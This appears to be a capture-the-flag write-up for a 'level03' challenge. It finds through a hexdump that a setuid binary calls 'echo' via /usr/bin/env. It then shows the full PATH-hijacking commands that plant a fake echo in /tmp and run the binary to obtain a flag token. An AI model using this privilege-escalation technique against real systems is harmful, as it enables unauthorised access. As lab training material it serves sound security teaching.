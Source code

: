As per usual we start by simply listing all the files of the repository:
```
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
```

Looks like this time we have an executable, well let's try to run it.
```
Exploit me
```

Let's use hexdump on the executable
```
hexdump -C level03

000005b0  f8 ff 75 f4 83 c4 04 5b  5d c3 90 90 53 83 ec 08  |..u....[]...S...|
000005c0  e8 00 00 00 00 5b 81 c3  2f 1a 00 00 e8 4f fe ff  |.....[../....O..|
000005d0  ff 83 c4 08 5b c3 00 00  03 00 00 00 01 00 02 00  |....[...........|
000005e0  2f 75 73 72 2f 62 69 6e  2f 65 6e 76 20 65 63 68  |/usr/bin/env ech|
000005f0  6f 20 45 78 70 6c 6f 69  74 20 6d 65 00 00 00 00  |o Exploit me....|
00000600  01 1b 03 3b 30 00 00 00  05 00 00 00 70 fd ff ff  |...;0.......p...|
```

Here we realize that the function, to write "Exploit me" is using a syscall defined in the environment.
Or we also realize by trying that we have access to the environment.

So here is the way that we can abuse this:

```
echo '/bin/getflag' > /tmp/echo
chmod 777 /tmp/echo
export PATH=/tmp:$PATH
./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

